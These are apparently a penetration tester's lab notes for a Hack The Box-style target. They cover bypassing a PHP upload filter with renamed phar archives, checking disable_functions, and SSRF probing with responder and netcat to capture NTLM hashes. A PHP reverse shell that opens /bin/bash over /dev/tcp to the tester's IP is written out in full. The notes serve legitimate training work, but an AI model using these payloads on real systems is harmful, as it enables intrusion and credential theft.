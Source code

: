 if upload filters out .php files:
```
mv shell.phar shell.0xdf
```
- changes name of file to arbitrary file extension to bypass filter
then upload `shell.0xdf` and navigate to file ex: http://dev.siteisup.htb/?page=phar://uploads/900ef1a94818a750d28b0f67291e9a94/shell.0xdf/shell
- .php gets automatically appended at the end
- if works should see php info page
	- look for disable_functions section to see which php functions are prevented to then design php rev shell
	- can also use dfunc-bypasser.py
```
python3 dfunc-bypasser.py --url 'http://dev.siteisup.htb/?page=phar://uploads/900ef1a94818a750d28b0f67291e9a94/shell.0xdf/shell'
```
- if proc_open isn't disabled, create rev.php shell containing
```
<?php
        $descspec = array(
                0 => array("pipe", "r"),
                1 => array("pipe", "w"),
                2 => array("pipe", "w")
        );
        $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.172/443 0>&1'";
        $proc = proc_open($cmd, $descspec, $pipes);
```
- then same process as above
```
zip rev.0xdf rev.php
```
- upload rev.0xdf, start listener, access page: http://dev.siteisup.htb/?page=phar://uploads/1f034331994c02c3c036237afbb4975c/rev.0xdf/rev
#### SSRF
if SSRF (text box that calls a URL of my choosing), run responder on kali:
```
sudo responder -I tun0
```
Put link in URL box to call my IP  `\\192.168.45.181\share`
- should be able to capture request, get NTLM hash maybe
also try nc instead of responder:
```
nc -lvnp 80
```
- put in IP of kali `http://10.10.14.172/test` and see if receive any packets
- use burp to look at response and maybe get info on service
for a text box link that pulls a file and converts to pdf:
```
python -m http.server 80
```
- then use exiftool to see metadata and see what tool was used:
```
exiftool filename.pdf
```
